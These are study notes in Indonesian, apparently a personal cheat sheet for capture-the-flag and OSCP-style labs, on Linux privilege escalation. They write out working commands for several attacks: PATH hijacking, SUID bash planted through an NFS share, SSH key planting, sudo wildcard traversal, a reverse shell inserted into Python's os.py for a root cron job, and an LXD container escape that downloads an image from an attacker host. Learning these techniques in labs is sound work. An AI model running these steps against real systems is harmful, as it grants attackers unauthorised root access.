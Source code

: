 # Usefool Tools and links
Cek Priv Esc
https://github.com/sleventyeleven/linuxprivchecker

Kalau stuck bisa kesini
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom

# Cron Jobs
Untuk cron jobs ini terkadang kita gak tau apakah ada atau tidak, nah cara untuk mengetahuinya bisa menggunakan tools pspy
https://github.com/DominicBreuker/pspy
Jadi tools ini akan melakukan monitoring, perintah-perintah apa saja yang dilajalankan oleh user lain termasuk root
## Priv Esc Via Python Library & Cron Jobs
Pada mesin HTB friendzone, terdapat case yang menarik dimana ada cron jobs yang menjalankan script python. 
Menggunakan `pspy`
```
2022/06/27 08:40:01 CMD: UID=0    PID=41738  | /usr/bin/python /opt/server_admin/reporter.py 
2022/06/27 08:40:01 CMD: UID=0    PID=41737  | /bin/sh -c /opt/server_admin/reporter.py 
2022/06/27 08:40:01 CMD: UID=0    PID=41736  | /usr/sbin/CRON -f 

```
namun file ini tidak writable. Pada script tsb terdapat import library `os`

```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
```

Dan ternyata library os ini bisa diedit dan kita tinggal memasukkan reverse shell script python ke dalam file
```
/usr/lib/python2.7/os.py
```

Kemudian cronjob akan memanggil script tersebut dan boom!


# Checklist
![[linux_privesc.jpg]]

12. LD_PRELOAD
13. PATH INJECTION

# Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps #nama binary
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`

# NFS
Kalau menemukan NFS, coba mount 

```
showmount -e 192.168.1.9
```

Terus kalau muncul direktori yang boleh dimount, kita langsung mount ke tmp directory

Attacker machine : 
```
mkdir /tmp/mydrive
sudo mount -t nfs 192.168.1.9:/home/deon /tmp/mydrive
cd /tmp/mydrive
cp /bin/bash .
chmod +s bash
```

Lalu pada victim machine:
```
cd /home/deon
./bash -p
```

## NFS restricted
Studi kasus Vulnix dimana hasil mount hanya bisa diakses oleh user dengan nama vulnix dan id 2008, maka untuk melakuknnya adalah

```
useradd -u 2008 vulnix
passwd vulnix
mkdir /home/vulnix
chown vulnix:vulnix /home/vulnix
su vulnix
ssh-keygen -t rsa
cd /tmp/mydrive
mkdir ./.ssh
cat /home/vulnix/.ssh/id_rsa.pub > ./.ssh/authorized_keys
```
Perintah diatas, kita membuat SSH key pair agar bisa login dengan key, nah keynya disimpan pada `/home/vulnix` yang dalam ini kita  mound ke `/tmp/mydrive`
Lalu sebagai user root, login ssh dengan key tsb
```
ssh -i /home/vulnix/.ssh/id_rsa vulnix@192.168.1.9
```

# Asterisk
Jika saat melakukan `sudo -l`, muncul seperti ini :
```
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
Artinya kita bisa menjalankan `cat` atau `ls` sebagai root. Perhatikan bahwa kita hanya boleh menggunakan perintah tersebut pada direktori `/accounts/*`, yang menarik disini adalah asterisk `*` dimana memiliki celah kita bisa baca di direktori mana saja. Sehingga exploitnya
```
sudo /bin/cat /accounts/../root/root.txt
```
Kita bisa menggunakan file inclusion
Latihan : SkyTower  VulnHub

# PS 
perintah `ps` digunakan untuk menampilkan proses yang sedang berjalan. 

Biasanya pada saat mendapakatkan low shell, kita berada pada user `www-data`, misalnya terdapat user dengan nama `andy` dan semua cara sudah kita lakukan namun tidak menemukan cara untuk priv esc ke `andy`, maka coba lihat apakah ada proses yang dijalankan oleh andy
```
ps aux | grep andy
```

Nah jika ada maka tes proses/aplikasi yang dijalankan apakah ada RCE

# LXD Container
Cek apakah ada user lxd lalu jalankan command ini 

## Attacker Machine
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Hasil dari build aplhine akan ada file .tar.gz, contohnya `apline-v3.10-x86_64-20191008_1227.tar.gz` , ini kemudian kita upload di victim machine

## Victim Machine

```
cd /tmp
wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list
```

![Container](https://1.bp.blogspot.com/-yy1afthCNsc/XaHYJSIM37I/AAAAAAAAg5g/KTDuZuVIjmMzqEzlMsNY0E59r7UDV28tACLcBGAsYHQ/s1600/11.png)

```
lxd init
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

## Another Reference
### xhxBrofessor
![Linux Priv Esc 2](https://github.com/hxhBrofessor/PrivEsc-MindMap/raw/main/Linux-Privesc.JPG)

### Conda

![Linux PrivEsc](https://github.com/C0nd4/OSCP-Priv-Esc/blob/main/images/Linux%20Privilege%20Escalation.png?raw=true)